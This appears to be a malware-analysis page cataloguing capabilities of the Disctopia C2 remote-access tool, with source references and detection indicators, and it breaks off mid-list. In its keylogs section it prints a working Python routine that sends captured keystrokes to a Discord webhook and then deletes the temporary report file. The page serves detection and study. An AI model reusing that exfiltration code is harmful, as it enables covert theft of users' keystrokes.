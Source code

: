 ### keylogs

- Description: Keylogger function based on the "keyboard" [package](https://pypi.org/project/keyboard/)
- Source Reference:
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/code/main.py#L49
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/libraries/keylogger.py#L7
- Indicators:
  - Creation of a file `report.txt` in the `temp` directory

    ```python
    def report_to_webhook(self):
        flag = False
        webhook = DiscordWebhook(url=self.webhook, username="Keylogger")
        if len(self.log) > 2000:
            flag = True
            path = os.environ["temp"] + "\\report.txt"
            with open(path, 'w+') as file:
                file.write(f"Keylogger Report | Agent#{self.id} | Time: {self.end_dt}\n\n")
                file.write(self.log)
            with open(path, 'rb') as f:
                webhook.add_file(file=f.read(), filename='report.txt')
        else:
            embed = DiscordEmbed(title=f"Keylogger Report | Agent#{self.id} | Time: {self.end_dt}", description=self.log)
            webhook.add_embed(embed)    
        webhook.execute()
        if flag:
            os.remove(path)
    ```

### getIP

- Description: Collect IP of the host
- Source Reference:
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/code/main.py#L56
- Indicators:
  - HTTP call to `https://api.ipify.org`

### getBits

- Description: Get the bitness of the host
- Source Reference:
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/code/main.py#L63
- Indicators: N/A

### getUsername
